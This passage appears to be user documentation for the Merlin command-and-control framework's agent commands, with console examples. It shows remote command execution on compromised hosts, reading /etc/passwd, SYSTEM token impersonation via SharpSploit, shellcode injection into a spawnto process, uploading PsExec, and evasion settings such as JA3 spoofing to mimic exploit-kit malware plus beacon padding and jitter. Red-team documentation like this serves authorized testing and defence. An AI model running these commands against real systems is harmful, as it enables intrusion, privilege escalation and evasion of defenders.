    [-] Created job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Query: 8.8.8.8, Result: dns.google.
    Query: 9.9.9.9, Result: dns9.quad9.net.
    Query: github.com, Result: 192.30.255.113
    Query: google.com, Result: 142.250.73.238 2607:f8b0:4004:82a::200e

pwd
---

The ``pwd`` command uses native Go to get and return the current working directory.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pwd
    [-]Created job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Current working directory: C:\Users\Joe

quit
----

The ``quit`` command is used to exit out of the Merlin Server application. This is also an alias for the ``exit`` command.

run
---

The ``run`` command is used to task the agent to run a program on the host and return STDOUT/STDERR. When issuing a command to an agent from
the server, the agent will execute the provided binary file for the program you specified and also pass along any
arguments you provide. It is important to note that program must be in the path. This allows an operator to specify and
use a shell (e.g.,. cmd.exe, powershell.exe, or /bin/bash) or to execute the program directly *WITHOUT* a shell.
For instance, ``ping.exe`` is typically in the host's %PATH% variable on Windows and works *without* specifying ``cmd.exe``.
However, the ``ver`` command is not an executable in the %PATH% and therefore *must* be run from ``cmd.exe``.
Use the shell_ command if you want to use the operating system's default shell directly.

Example using ping:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ping 8.8.8.8
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job DTBnkIfnus for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job DTBnkIfnus

    Pinging 8.8.8.8 with 32 bytes of data:
    Reply from 8.8.8.8: bytes=32 time=23ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=368ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=26ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=171ms TTL=54

    Ping statistics for 8.8.8.8:
        Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
    Approximate round trip times in milli-seconds:
        Minimum = 23ms, Maximum = 368ms, Average = 147ms

Example running ``ver`` *without* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job iOMPERNYGT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job iOMPERNYGT
    exec: "ver": executable file not found in %PATH%

Example running ``ver`` *with* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.
In order to use the `dir`, you must provide executable of the shell environment where that command resides.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.
If you want to use them, you must do so *WITH* a shell.
For Linux, an example would be:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»run bash -c "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. Any inner quotes need to be escaped. The argument can be enclosed in double quotes or single quotes.
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows ``C:WindowsSystem32``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]'C:WindowsSystem32' is not recognized as an internal or external command,
    operable program or batch file.
    [!]exit status 1

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir C:\\Windows\\System32

set
---

The ``set`` command is used to provide the agent with instructions on controlling itself and/or its configuration. There are several control types to include:

* ja3_
* killdate_
* maxretry_
* padding_
* skew_
* sleep_

.. _ja3:

ja3
^^^

`JA3 is a method for fingerprinting TLS clients on the wire <https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967>`_. Every TLS client has a unique signature depending on its configuration of the following TLS options: ``SSLVersion,Ciphers,Extensions,EllipticCurves,EllipticCurvePointFormats``.

The ``ja3`` option allows the agent to create a TLS client based on the provided JA3 hash signature. This is useful to evade detections based on a JA3 hash for a known tool (e.g.,. Merlin). `This <https://engineering.salesforce.com/gquic-protocol-analysis-and-fingerprinting-in-zeek-a4178855d75f>`_ article documents a JA3 fingerprint for Merlin. Known JA3 signatures can be downloaded from https://ja3er.com/

.. note::
    Make sure the input JA3 hash will enable communications with the Server. For example, if you leverage a JA3 hash that only supports SSLv2 and the server does not support that protocol, then they will not be able to communicate. The ``-ja3`` flag will override the the ``-proto`` flag and will cause the agent to use the protocol provided in the JA3 hash.

This example will create a TLS client with a JA3 hash of ``51a7ad14509fd614c7bb3a50c4982b8c`` that matches Java based malware such as Neutrino and Nuclear Exploit Kit (EK).

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set ja3 769,49161-49171-47-49156-49166-51-50-49159-49169-5-49154-49164-49160-49170-10-49155-49165-22-19-4-255,10-11-0,23-1-3-19-21-6-7-9-10-24-11-12-25-13-14-15-16-17-2-18-4-5-20-8-22,0
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job DWXtIAdjYz for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2020-08-20T14:36:34Z

.. _killdate:

killdate
^^^^^^^^

Killdate is a UNIX timestamp that denotes a time the executable will not run after (if it is 0 it will not be used). Killdate is checked before the agent performs each checkin, including before the initial checkin.

Killdate can be set in the agent/agent.go file before compiling, in the New function instantiation of a new agent. One scenario for using the killdate feature is an agent is persisted as a service and you want it to stop functioning after a certain date, in case the target organization fails to remediate the malicious service. Using killdate here would stop the agent from functioning after a certain specified UNIX system time.

The Killdate can also be set or changed for running agents using the ``set killdate`` command from the agent menu. This will only modify the killdate for the running agent in memory and will not update the compiled binary file. http://unixtimestamp.50x.eu/ can be used to generate a UNIX timestamp.

A UNIX timestamp of `0` will read like `1970-01-01T00:00:00Z` in the agent info table.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set killdate 811123200
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _maxretry:

maxretry
^^^^^^^^

The ``maxretry`` control type is used to change the _maximum_ number of failed login an agent will allow before the agent quits. For the sake of this conversation, a login means establishing contact with a Merlin Server and receiving no errors. The default is 7. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set maxretry 50
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _padding:

padding
^^^^^^^

The ``padding`` control type is used to change the _maximum_ size of a message's padding. A random value between 0 and the maximum padding value is selected on a per message basis and added to the end of each message. This is used in an attempt to evade detection when a program looks for messages with same size beaconing out. The default is 4096. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set padding 8192
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job wlGTwgtqNx for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _skew:

skew
^^^^

The ``skew`` command is used to introduce a jitter or skew to the agent sleep time to keep traffic from occurring at exact time intervals.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set skew 5
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job lyYQdxckTY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

.. _sleep:

sleep
^^^^^

The ``sleep`` control type is used to change the amount of time that an agent will sleep before checking in again. The default is 30 seconds. The values provided to this command are written in a time format. For example, ``30s`` is 30 seconds and ``60m`` is 60 minutes. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set sleep 15s
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job npMYqwASOD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

sharpgen
--------

.. warning::
    The .NET Core 2.1 SDK must be manually installed by the operator and the SharpGen executable must be built before the ``sharpgen`` command can be used

The ``sharpgen`` command leverages Ryan Cobb's `SharpGen <https://github.com/cobbr/SharpGen>`_ project and the `.NET Core 2.1 SDK <https://dotnet.microsoft.com/download/dotnet-core/2.1>`_ to dynamically compile and execute .NET assemblies. After assembly is compiled, the same steps documented in `execute-assembly`_ are followed. SharpGen also leverages functionality from the `SharpSploit <https://github.com/cobbr/SharpSploit>`_ project that can be called directly from this ``shargen`` command. This command uses a hardcoded output that places compiled executables to the Merlin root directory as ``sharpgen.exe``.

For more granular control and additional configuration options, use the ``windows/x64/csharp/misc/SharpGen`` module.

SharpGen is git a submodule in the ``data/src/cobbr/SharpGen`` directory. From this directory, run the ``dotnet build -c release`` command to build the ``SharpGen.dll`` executable.

The ``sharpgen`` command is executed as: ``shaprgen <code> [<spawnto path> <spawnto args>]``

The ``code`` positional argument is the .NET code you want to compile and execute. All code is automatically wraped in ``Console.WriteLine();`` and it does not need to be included again. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Use ``\`` to escape any characters inside of the code argument and use quotes to enclose the entire code argument (e.g., ``"new Tokens().MakeToken(\"RAstley\", \"\", \"P@ssword\")"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sharpgen "new SharpSploit.Credentials.Tokens().GetSystem()"
    [-] Created job oeOBXfBuPS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job oeOBXfBuPS

    Getting system...
    Impersonate NT AUTHORITY\SYSTEM...
    Processes for NT AUTHORITY\SYSTEM: 25
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Impersonated: NT AUTHORITY\SYSTEM
    True

shell
-----

The ``shell`` command is used to task the agent to execute the provided arguments using the operating system's default
shell and return STDOUT/STDERR. On Windows the ``%COMSPEC%`` shell is used and if it is ``cmd.exe`` then the ``/c``
argument is used. For macOS and Linux, the ``/bin/sh`` shell is used with the ``-c`` argument.
Use the run_ command to execute a program directly without invoking the shell.

Example using ``ver``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. The argument can be enclosed in double quotes or single quotes. All other quotes need to be escaped
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows File Not Found:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]  Volume in drive C has no label.
     Volume Serial Number is AC57-CFB9

     Directory of C:\

    File Not Found

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\\Windows\\System32

status
------

The ``status`` command is used to simply print if the Merlin Agent is Active, Delayed, or Dead to the screen. This becomes useful when you come back to Merlin after a couple of hours or if you want to see if your shell has died.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» status
    Active
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

upload
------

The ``upload`` command is used to upload a file *from* the Merlin server *to* the host where the Merlin agent is running. The command is called by proving the location of the file on the Merlin server followed by the location to save the file on the host where the Merlin agent is running.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» upload C:\\SysinternalsSuite\\PsExec.exe C:\\Windows\\PsExec.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job vXJsZdZLPP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
